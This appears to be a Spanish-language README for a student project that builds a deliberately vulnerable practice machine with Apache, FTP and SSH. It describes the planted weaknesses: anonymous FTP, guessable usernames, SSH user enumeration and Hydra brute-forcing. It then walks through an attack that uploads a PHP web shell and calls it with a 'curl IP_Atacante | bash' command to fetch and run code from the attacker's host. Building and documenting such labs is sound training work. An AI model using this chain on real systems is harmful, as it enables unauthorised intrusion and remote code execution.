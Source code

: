 Lo único que hemos implementado aqui es un fichero html para que se visualice al poner la ip en el navegador.

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/3cd6dd51-1085-4ecd-b9b3-2e8a28da10de)


## Que vulnerabilidades hemos hecho y como las hemos implementado:

Para empezar tenemos una web inspirada en la serie The Originals. Hemos implementado los servicios apache, ftp y ssh.

En ftp hemos dejado activo el usuario anonymous, este no puede hacer nada, unicamente get.

En la web podemos obserbar una galeria con diferentes personajes, donde el atacante puede hacer una lista y probar de hacer un hydra con cada unos de estos personajes, hasta acertar con el usuario.

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/0ce0aa3a-6ba9-45a4-988c-ba699a50ad58)

El atacante intentara acceder con cada uno de los usuario hasta que de con el indicado en este caso elijah, o hacer una enumeración de usuarios por ssh ya que esta es la version que esta instalada.  

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/e99ecaaa-28a2-425a-a8ce-60d34729f041)

Y al hacer la enumeración vemos que usuarios existen.

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/43c5976e-819d-40b8-82e1-5a6f956ca96c)

Haciendole un hydra al ftp.

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/edbee44e-e7c7-4c34-be78-c65ced4b303e)

Este usuario no tiene nada dentro, pero si tiene permisos diferentes como el de subir un fichero.

Tendra que subir un archivo php para ejecutar comandos desde la web. 

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/895f89b4-6099-4433-8876-5c1d98dd4e64)


La maquina atacante tendra lo siguiente:

- Un archivo html con codigo bash dento, y en la misma ruta del archivo abrir un terminal con lo siguiente, para iniciar un servidor web en la maquina atacante.

  ![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/04bff278-aade-47fc-9fab-a15f5a87b7eb)

- Un terminal abierto para ponernos en escucha en http.
  
  ![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/bcb607a2-b054-43bb-8726-999ae8719b34)


Una vez tenemos esto en la maquina atacante, desde la web ponemos la ruta del archivo que hemos subido con el codigo php para hacer comandos, y añadimos ?cmd=curl IP_Atacante | bash, se quedara la pagina pensando.

![image](https://github.com/Dani-ITB24/Proyecto-Final/assets/157145186/98c2016d-2b16-4637-b2de-9cb3e59ed2c1)
